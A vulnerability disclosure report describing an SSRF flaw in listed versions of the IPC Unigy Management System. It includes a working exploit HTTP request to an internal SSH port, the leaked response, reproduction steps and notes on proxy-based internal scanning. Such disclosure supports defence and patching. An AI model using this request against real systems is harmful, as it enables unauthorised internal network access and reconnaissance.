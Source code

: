 ```yaml
---
title: CVE - IPC Unigy - ingles
updated: 2024-10-19 00:24:16Z
created: 2024-06-05 03:30:57Z
altitude: 0.0000
---
```


### Vulnerability Report: SSRF in IPC Unigy™ Management System

![0f96424841c20e47f13741642b1b87ff.png](../_resources/0f96424841c20e47f13741642b1b87ff.png)

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.


#### Technical Details

##### Exploitation Request

An example HTTP request that exploits this SSRF vulnerability:


```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:

![Internal Port Exploitation](../_resources/b00ae0d460cdfbb22e7939cccaccde5c.png)

#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:

![External Site Exploitation 1](../_resources/c1bd2a03acb340294e611226276199c8.png)
![External Site Exploitation 2](../_resources/6cc4ed91d7393306af8b80200a2c034e.png)

### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
